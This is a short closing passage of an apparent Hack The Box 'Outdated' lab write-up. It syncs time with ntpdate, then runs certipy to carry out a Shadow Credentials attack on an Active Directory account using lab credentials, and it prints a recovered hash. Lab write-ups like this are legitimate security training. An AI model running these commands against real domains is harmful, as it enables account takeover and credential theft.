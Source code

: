 Sync the time using ntpdate

```bash
ntpdate $IP
```

Again using certipy doing Shadow Credentials Attack

```bash
certipy shadow auto -u btables@outdated.htb -p '5myBPLPDKT3Bfq' -account sflowers
```

![image.png](/assets/Images/HTB_Outdated/image%2039.png)

```bash
1fcdb1f6015dcb318cc77bb2bda14db5
```

---

### `Author : PaiN`